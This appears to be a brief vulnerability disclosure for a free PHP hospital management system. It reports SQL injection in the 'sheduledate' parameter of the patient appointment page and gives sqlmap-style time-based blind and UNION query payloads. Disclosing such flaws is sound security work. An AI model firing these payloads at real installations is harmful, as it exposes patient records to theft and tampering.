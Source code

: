 https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html

Free Hospital Management System for Small Practices 1.0
1. SQL injection

![Alt text](image.png)

/patient/appointment.php

parameter: sheduledate

---
Parameter: sheduledate (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sheduledate=2023-08-24' AND (SELECT 7187 FROM (SELECT(SLEEP(5)))sIsM) AND 'mPuB'='mPuB

    Type: UNION query
    Title: Generic UNION query (NULL) - 9 columns
    Payload: sheduledate=2023-08-24' UNION ALL SELECT 43,43,43,43,43,43,43,CONCAT(0x7170717a71,0x716e716574505a584f787954516777664772734e566b676d717a45666e65774d5a554250687a6748,0x71626b7871),43-- -
---